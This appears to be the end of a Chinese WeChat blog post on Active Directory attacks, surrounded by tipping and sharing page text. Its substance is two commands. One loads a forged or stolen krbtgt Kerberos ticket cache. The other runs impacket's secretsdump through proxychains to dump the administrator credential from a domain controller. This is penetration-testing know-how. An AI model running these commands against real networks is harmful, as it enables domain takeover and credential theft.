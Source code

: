export KRB5CCNAME=AD02\$\@XIE.COM_krbtgt~xie.com\@XIE.COM.ccaches  

proxychains4 -q python3 secretsdump.py -k -no-pass AD01.xie.com -just-dc-user
administrator

  

![](https://gitee.com/fuli009/images/raw/master/public/20210823182641.png)

  

![](https://gitee.com/fuli009/images/raw/master/public/20210823182611.png)END

如果想跟我一起讨论，那快加入我的知识星球吧！https://t.zsxq.com/7MnIAM7

  

![](https://gitee.com/fuli009/images/raw/master/public/20210823182643.png)

  

![]()

谢公子

![赞赏二维码]() **微信扫一扫赞赏作者** 赞赏

已喜欢，[对作者说句悄悄话](javascript:;)

取消 __

#### 发送给作者

发送

最多40字，当前共字

[](javascript:;) 人赞赏

上一页 [1](javascript:;)/3 下一页

长按二维码向我转账

受苹果公司新规定影响，微信 iOS 版的赞赏功能被关闭，可通过二维码转账支持公众号。

预览时标签不可点

收录于话题 #

个 __

上一篇 下一篇

阅读原文

阅读

分享 收藏

赞 在看

____已同步到看一看[写下你的想法](javascript:;)
